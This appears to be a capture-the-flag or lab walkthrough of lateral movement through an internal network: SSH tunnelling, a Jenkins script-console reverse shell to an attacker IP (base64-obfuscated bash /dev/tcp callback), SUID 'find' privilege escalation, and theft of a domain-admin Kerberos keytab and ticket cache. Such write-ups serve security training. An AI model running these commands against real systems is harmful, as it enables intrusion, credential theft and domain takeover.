# Lateral Movement - 1

- [Lateral Movement - 1](#lateral-movement---1)
  - [SSH Tunnel](#ssh-tunnel)
  - [nmap scanning](#nmap-scanning)
  - [Jenkins](#jenkins)
  - [Local Enumeration](#local-enumeration)
  - [Domain Enumeration on Linux](#domain-enumeration-on-linux)
  - [Privilege Escalation to support](#privilege-escalation-to-support)
  - [Requests using support keytab](#requests-using-support-keytab)

---

## SSH Tunnel

Since we have the ssh credential of `iyer`, and we know there is a connection between the Production-Server and an internal address `10.1.3.1`, we can try to reach it via ssh tunnel.

First check out proxychain setting:

```
cat /etc/proxychains.conf | grep 9050
```

Then ssh to `192.168.3.8` using the follow command:

```
ssh -N -D 9050 iyer@192.168.8.3 
```

<br/>

## nmap scanning

First get a standalone version of nmap to the Production-Server.

(Source: https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap)

<br/>

Host the binary on the attacker machine using python3:

```
wget https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/nmap
python3 -m http.server 80
```

<br/>

Then on Production-Server, download nmap and run the scan:

```
cd /tmp
wget http://192,168.100.11/nmap
chmod +x ./nmap
./nmap -n -Pn -T4 10.1.3.1 -p-
```

  

As shown, tcp/1234 is opened on 10.1.3.1.

<br/>

Try to access via proxychain:

  

<br/>

  

Jenkins, a CI/CD server, is found to be running.

<br/>

---

## Jenkins

Try using admin/admin to login and it is successful.

  

<br/>

Create a new job named **Admin Build**:

  

<br/>

  

<br/>

However, we have no permission to do so. Further checking the available users, there is a user called `autoadmin`:

  

<br/>

Checking `http://10.1.3.1:1234/credentials/`, a cleartext credential is found:

  

<br/>

> Credential:
> 
> autoadmin / Jenk!nsADMIN

<br/>

Login as autoadmin:

  

<br/>

Use the Jenkins script function on `http://10.1.3.1:1234/script` in attempt to get a reverse shell (launch a netcat listener on the attacker machine first):

```
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = 'bash -c {echo,YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEwMC4xMS80NDMgMD4mMScK}|{base64,-d}|{bash,-i}'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```

<br/>

Note the original of the base64 encoded command:

```
bash -c 'bash -i >& /dev/tcp/192.168.100.11/443 0>&1'
```

  


<br/>

A reverse shell calls back:

  


<br/>

Spawn a PTY shell:

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

<br/>

---

## Local Enumeration

Checking the `/home` directory, it looks like the `Automation-Server` is a domain joined computer.

  

<br/>

Inspecting `/home/autoadmin/Desktop/ssu_auto.sh`, a cleartext credential of `webadmin` is found, but it is not a valid password.

  

  


<br/>

Checking `/home/autoadmin/Downloads`, there are some interesting files and folders:

  

<br/>

---

## Domain Enumeration on Linux

To confirm it is a domain-joined computer, we can find `.keytab` file:

```
find / -name *.keytab -type f 2>/dev/null
```

  

<br/>

As shown, `/etc/krb5.keytab` exists and it is likely that this machine is domain-joined.

<br/>

Enumerate binaries with SUID bit set:

```
find / -perm -u=s -type f 2>/dev/null
```

  

  

<br/>

Try to use this `find` binary to enumerate other `keytab` file:

```
/var/lib/jenkins/find / -name *.keytab -type f 2>/dev/null
```

  

<br/>

As shown, there is a keytab file in the path `/home/support@operations.atomic.site/adm_domain.keytab`

<br/>

----

## Privilege Escalation to support

Since a `find` with SUID is found, we can use it to escalate our privilege.


```
/var/lib/jenkins/find . -exec /bin/bash -p \;
```
  

As shown, we become the support user in the domain.

<br/>

---

## Requests using support keytab

In the previous section, we identified `/home/support@operations.atomic.site/adm_domain.keytab`. Deduced from the name, it is possible to be the `Domain Admin` keytab file (Domain: operations.atomic.site).

<br/>

With the keytab file, we can request for TGT:

```
kinit adm_domain@OPERATIONS.ATOMIC.SITE -k -t adm_domain.keytab
```
* Note that the `@` part should be in CAPITAL LETTERS.

  


<br/>

Check the IP address of `operations.atomic.site` using `nslookup`:

```
nslookup OPERATIONS.ATOMIC.SITE
```
  
- 10.1.1.2

<br/>

To get the ComputerName of the DC, we can use check the LDAP record:

```
nslookup -type=any _ldap._tcp.dc._msdcs.operations.atomic.site
```

  

* As shown, the ComputerName is **OPS-CHILDDC**

<br/>

Then, request a TGS for CIFS:

```
kvno CIFS\/OPS-CHILDDC
klist
```

  

<br/>

To transfer the TGS to the attacker machine, first base64 encode the TGS:

```
base64 -w 0 < /tmp/krb5cc_123
```

  

<br/>

Then copy the output string and decode in the attacker machine:

```
echo -n "<copied string>" | base64 -d > krb5cc_123
```

  


<br/>

